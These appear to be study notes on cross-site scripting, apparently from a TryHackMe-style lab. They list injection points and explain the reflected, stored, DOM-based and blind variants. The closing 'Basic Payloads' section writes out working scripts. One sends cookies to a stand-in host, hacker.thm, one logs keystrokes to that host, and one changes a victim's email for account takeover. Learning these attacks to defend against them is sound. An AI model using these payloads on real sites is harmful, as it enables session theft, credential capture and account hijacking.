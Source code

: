 				Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### supplied data in an HTTP request is included in the webpage source without any validation.

Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### the payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information  
- Website Listings


<!-- -->

				Dom Based XSS		
##### JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				
				Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
-- Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

-- Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

-- Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

-- Beef Framework